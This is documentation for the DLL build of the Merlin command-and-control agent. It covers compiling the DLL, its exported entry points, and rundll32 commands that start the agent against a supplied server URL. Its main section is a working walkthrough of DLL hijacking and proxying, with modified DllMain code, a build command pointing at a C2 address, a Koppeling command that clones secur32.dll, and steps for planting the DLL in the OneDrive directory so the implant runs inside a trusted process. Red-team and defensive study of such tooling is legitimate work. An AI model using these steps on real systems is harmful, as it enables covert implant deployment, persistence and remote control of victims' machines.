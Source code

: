 #########
DLL Agent
#########

The Merlin Agent can be compiled into a DLL using the https://github.com/Ne0nd0g/merlin-agent-dll repository.
The ``merlin.c`` file is a very simple C file with a single function.
The ``VoidFunc`` and ``Run`` functions are exported to facilitate executing the DLL.

The ``VoidFunc`` function name was specifically chosen to facilitate use with PowerSploit's
`Invoke-ReflectivePEInjection.ps1 <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>`_.
Using ``VoidFunc`` requires no modification to run Merlin's DLL with Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the `TDM-GCC <http://tdm-gcc.tdragon.net/download>`_ 64bit compiler has proven to work well during testing.

If the DLL is compiled on Linux, ensure ``MinGW-w64`` is installed.

Creating the DLL
----------------

The DLL can be created using the Make file with ``make``

Alternatively, it can be compiled without Make by following these steps:

* Create the required C archive file:
    ``go build -buildmode=c-archive main.go``

* Compile the DLL
    ``gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32``

You will now have DLL file that you can use with whatever method of execution you would like.

DLL Entry Points
----------------

This table catalogs the exported functions for ``merlin.dll`` that can be used as an entry point when executing the DLL.

.. csv-table:: Exported DLL Functions
   :header: "Exported Function", "Status", "Notes"
   :widths: auto

    Run, Working, Main function to execute Merlin agent
    DllInstall, Partial, Used with regsvr32.exe /i . Handling for ``/i`` not implemented
    DllRegisterServer, Working, Used with regsvr32.exe
    DllUnregisterServer, Working, Used with regsvr32.exe /u
    ReflectiveLoader, Removed, Used with Metasploit's windows/manage/reflective_dll_inject module
    Magic, Working, Exported function in ``merlin.c``; used with sRDI or any other method
    Merlin, Working, Exported function in ``main.go``
    VoidFunc, Working, Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

Execution with rundll32.exe
----------------------------

The DLL can be executed on a Windows host using the rundll32.exe program. Examples of using ``rundll32`` are:

* ``rundll32 merlin.dll,Run``
* ``rundll32 merlin.dll,Merlin``
* ``rundll32 merlin.dll,Magic``

A different Merlin server *can* be provided when executing the DLL by supplying the target URL as an argument. An example is:

``rundll32 merlin.dll,Run https://yourdomian.com:443/``

**NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe

DLL Hijacking/Proxying with the Merlin DLL Agent
------------------------------------------------

With a little bit of setup, the Merlin DLL agent can be used for DLL Hijacking / Side-loading / Proxying. This is a great technique to get the Merlin agent running in the codespace of a trusted process.

The specifics on choosing an executable for DLL proxying are outside the scope of this documentation. Assume that a candidate executable has been identified.

In the ``merlin-agent-dll`` repo, add a new exported function with an arbitrary name to ``main.go``. Have this function execute the ``run`` function with the ``url`` argument:

.. code-block:: go
    
    ...[SNIP]...
    
    // EXPORTED FUNCTIONS

    // MagicMan is a test function
    //
    //export MagicMan
    func MagicMan() {
        run(url)
    }

    ...[SNIP]...

Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.

Now, in the ``merlin.c`` source code, add a new function that executes the exported function from ``main.go``:

.. code-block:: c
    
    ...[SNIP]...
    
    DWORD WINAPI RunMagicMan(LPVOID LpParam){
        //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
        MagicMan();
        return TRUE;
    }

    ...[SNIP]...

Next, edit the structure of ``DllMain`` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:

.. code-block:: c
    
    ...[SNIP]...
    
    BOOL WINAPI DllMain(
        HINSTANCE hinstDLL,  // handle to DLL module
        DWORD fdwReason,     // reason for calling function
        LPVOID lpReserved )  // reserved
    {
        // Perform actions based on the reason for calling.
        switch( fdwReason )
        {
            case DLL_PROCESS_ATTACH:
                //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
                CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
                break;

    ...[SNIP]...
    
Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.

Build the DLL agent with the merlin-agent-dll makefile and supply your desired URL, PSK, and protocol parameters:

``husky@dev-kde:~/merlin-agent-dll$ make URL=http://10.10.1.237:8443 PSK=merlin PROTO=http``

Let's assume that we're targeting the OneDrive.exe program for our DLL Proxy. We know that OneDrive.exe loads ``secur32.dll`` from the present working directory during execution.

We can now use a tool like Koppelling to create a proxied DLL:

``PS C:\Users\Matt\Desktop\Koppeling> .\NetClone.exe --target 'C:\Users\Matt\Desktop\merlin.dll' --reference 'C:\Windows\system32\secur32.dll' --output 'C:\Users\Matt\Desktop\secur32.dll'``

Then, we endeavor to drop our proxied DLL into the OneDrive application directory. Luckily for us, this is in %APPDATA% and we can write to the directory: 

``C:\Users\Matt\AppData\Local\Microsoft\OneDrive``

When the application starts, our proxied DLL is pulled into the process and a thread is executed. Our session is established and our agent lives inside the OneDrive.exe process:

.. image:: ../images/dll-proxy-1.png
   :align: center
   :alt: DLL Proxy 1
   
.. image:: ../images/dll-proxy-2.png
   :align: center
   :alt: DLL Proxy 2
